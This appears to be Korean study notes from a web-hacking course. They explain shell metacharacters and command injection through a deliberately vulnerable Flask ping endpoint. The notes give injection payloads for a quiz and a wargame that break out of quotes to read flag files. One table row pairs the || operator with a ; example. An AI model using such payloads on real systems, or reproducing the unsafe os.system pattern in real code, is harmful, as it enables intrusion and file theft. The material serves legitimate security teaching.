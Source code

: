 
# 1. 메타문자

|메타 문자|설명|Example|
|---|---|---|
|` `` `|**명령어 치환  <br>**` `` `안에 들어있는 명령어를 실행한 결과로 치환됩니다.|$ echo `echo theori`theori |
|$()|**명령어 치환** <br>`$()`안에 들어있는 명령어를 실행한 결과로 치환됩니다. 이 문자는 위와 다르게 중복 사용이 가능합니다. (`echo $(echo $(echo theori))`)|$ echo $(echo theori)theori|
|&&| **명령어 연속 실행** <br> 한 줄에 여러 명령어를 사용하고 싶을 때 사용합니다. 앞 명령어에서 에러가 발생하지 않아야 뒷 명령어를 실행합니다. (Logical And) |$ echo hello && echo theorihellotheori| 
|\|\|| **명령어 구분자** <br>한 줄에 여러 명령어를 사용하고 싶을 때 사용합니다. 앞 명령어에서 에러가 발생해야 뒷 명령어를 실행합니다. (Logical Or)| $ echo hello ; echo theorihellotheori |
|;| **명령어 구분자** <br>한 줄에 여러 명령어를 사용하고 싶을 때 사용합니다. `;`은 단순히 명령어를 구분하기 위해 사용하며, 앞 명령어의 에러 유무와 관계 없이 뒷 명령어를 실행합니다.|$ echo hello ; echo theorihellotheori|
|\||**파이프** <br>앞 명령어의 결과가 뒷 명령어의 입력으로 들어갑니다.|$ echo id \| /bin/shuid=1001(theori) gid=1001(theori) groups=1001(theori)|


# 2. Command Injection 실습

**Figure 2**은 Command Injection이 발생하는 예제 코드입니다. 코드를 살펴보면, URL 쿼리를 통해 전달되는 `ip` 값을 ping 명령어의 인자로 전달합니다.

**Figure 2. Command Injection**
```
@app.route('/ping')
def ping(): 
ip = request.args.get('ip') 
return os.system(f'ping -c 3 {ip}')
```

**메타문자(Meta Caracter)**
특수한 의미를 가진 문자. 예를 들어, 셸 프로그램에서 `;`를 사용하면 여러 개의 명령어를 순서대로 실행시킬 수 있음.


# 3. quiz

```
@app.route('/ping')
def ping():
	ip = request.args.get('ip')
	return os.system(f'ping -c 3 "{ip}"')
```


* C `"; cat /fl*; "`

# 4. 워게임 정답 

* `"|| cat flag.py || echo "`
